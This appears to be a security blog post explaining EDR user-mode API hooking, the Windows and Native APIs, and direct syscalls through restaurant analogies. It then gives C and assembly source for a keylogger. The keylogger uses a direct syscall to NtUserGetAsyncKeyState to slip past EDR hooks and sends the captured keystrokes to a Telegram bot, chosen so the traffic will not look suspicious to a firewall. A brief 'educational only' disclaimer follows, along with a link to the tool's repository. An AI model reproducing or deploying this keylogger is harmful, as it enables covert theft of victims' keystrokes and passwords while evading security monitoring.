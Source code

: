 ```yaml
---
title: "Syscalls — EDR evasion p1 (optional)"
date: 2024-07-31
draft: false
tags: ["cybersecurity", "edr", "reverse engineering", "malware", "windows internals"]
categories: ["blog"]
---
```


### What is User mode API-Hooking in EDR?

Imagine you’ve just got some great deals at a newly opened supermarket and are heading home with your transparent shopping bag. As you stroll by the neighborhood grocer, he peeks into your bag to see what you’ve bought. If he spots something he already stocks (something sus), he stops you and won’t let you pass.  


User-mode API hooking allows EDRs to dynamically inspect code executed within the context of Windows APIs or Native APIs for potentially malicious content or behavior. There are various types of hooking, with most vendors using the inline hooking method. This method replaces a specific `mov` instruction—more specifically, the `mov` opcode and the `eax` SSN operands—with a 5-byte `jmp` instruction. The `mov` instruction typically moves the syscall number or system service number (SSN) to the `eax` register. The unconditional `jmp` instruction redirects to the EDR's hooking DLL, allowing the EDR to examine the code executed within the context of the Native API for potentially malicious content.

![Alt text](/images/syscall1.webp)
---

### What is Windows API?

Imagine you’re at a Turkish restaurant, and you’ve got a craving for lahmacun. Now, the Windows API is like the friendly waiter at this restaurant. When you want to order lahmacun (or any other dish), you don’t need to go into the kitchen yourself. You just tell the waiter what you want.

So, you say, “I’d like to order lahmacun, please!” The waiter (Windows API) takes your order and communicates it to the kitchen (the operating system). The kitchen staff (kernel and hardware) then prepare your lahmacun just the way you like it.


Let’s say you want your application to create a file. To do that, you need to use the documented Windows API function `CreateFileW` in your code. Implementing this is straightforward, thanks to Microsoft's documentation.

![Alt text](/images/syscall2.webp)

To perform the save operation in the context of the user-mode process `notepad.exe`, the first step involves accessing `kernel32.dll` and calling the Windows API `WriteFile`. In the second step, `kernel32.dll` accesses `Kernelbase.dll`. In the third step, `WriteFile` accesses the Native API `NtCreateFile` through `ntdll.dll`.

---

### What is Native API?

This time, instead of talking to the waiter, you ask to speak directly with the head chef. The head chef (Native API) knows all the secrets and special techniques for making lahmacun. This is like using the Native API: it gives you more control and access to features the regular waiter might not handle.

The Native API is a set of undocumented functions provided by Windows, implemented in `ntdll.dll`, used internally by higher-level APIs to perform system operations.

![Alt text](/images/syscall3.webp)

> Some nerds have reverse-engineered these functions, allowing you to use undocumented NT functions in your code.

🔗 [NTAPI Undocumented Functions](https://web.archive.org)

---

### Direct Syscalls

Now you’re feeling even more adventurous. You walk directly into the kitchen and tell the sous-chef how to cook it. This is like a direct syscall — you skip the APIs and go straight to the kernel.

A direct syscall is a low-level way for programs to request services directly from the OS kernel, bypassing higher-level abstractions.

---


#### Keylogger

Example: A keylogger using Native API and syscalls, sending keystrokes to a Telegram bot.

```c
extern SHORT NtUserGetAsyncKeyState(
    IN INT vKey
);
```

Syscall assembly stub:

```c
.code
NtUserGetAsyncKeyState PROC
    mov r10, rcx
    mov eax, 1044h
    syscall
    ret
NtUserGetAsyncKeyState ENDP
end
```

To find the syscall SSN, debug the app and search for syscall instruction
Or use: https://j00ru.vexillium.org/syscalls/win32k/64/

![Alt text](/images/syscall4.webp)

Logging logic:

```c
void appendToKeystrokes(char character) {
    if (keystrokesSize + 1 >= BUFFER_SIZE) {
        sendToTgBot(keystrokes);
        keystrokesSize = 0;
        keystrokes[0] = '\0';
    }
    keystrokes[keystrokesSize++] = character;
    keystrokes[keystrokesSize] = '\0';
}
```

```c
VOID KeyboardClicksLogger() {
    SHORT state = NULL;
    if (LoadLibraryA("WIN32U.DLL") == NULL) {
        printf("[!] LoadLibraryA Failed\n");
        return;
    }

    while (TRUE) {
        Sleep(10);
        for (int i = 33; i < 255; i++) {
            state = (SHORT)NtUserGetAsyncKeyState((DWORD)i);
            if (state == 1 || state == -32767) {
                if ((7 < i) && (120 < i || i < 143)) {
                    printf("\\x%02X", i);
                    appendToKeystrokes((char)i);
                }
            }
        }
        state = (SHORT)NtUserGetAsyncKeyState(VK_SPACE);
        if (state == 1 || state == -32767) {
            printf(" ");
            appendToKeystrokes(' ');
        }
        state = (SHORT)NtUserGetAsyncKeyState(VK_RETURN);
        if (state == 1 || state == -32767) {
            printf("\n");
            appendToKeystrokes('\n');
        }
    }
}
```

```c
int main() {
    HANDLE hThread = NULL;
    DWORD dwThreadId = NULL;

    keystrokes = (char*)malloc(BUFFER_SIZE);
    if (keystrokes == NULL) return 1;
    keystrokes[0] = '\0';

    hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)KeyboardClicksLogger, NULL, NULL, &dwThreadId);
    if (hThread) {
        printf("[i] Thread %d Created\n", dwThreadId);
        WaitForSingleObject(hThread, INFINITE);
    }

    if (keystrokes != NULL) free(keystrokes);
    return 0;
}
```
Sending Logs?

    Of course, we use Telegram — so it won’t be sussy for the firewall.

Let’s test the code and see if it works.
![Alt text](/images/syscall5.webp)
![Alt text](/images/syscall6.webp)

🛡️ Does it evade EDR? Probably not. You need more advanced methods to fully bypass.
🧠 This is educational only — don't use it to steal your friends’ passwords.

![Alt text](/images/syscall7.webp)
🔗 GitHub: https://github.com/nol4ns3c/harach/blob/main/konsey-uyesi%20(syscall)

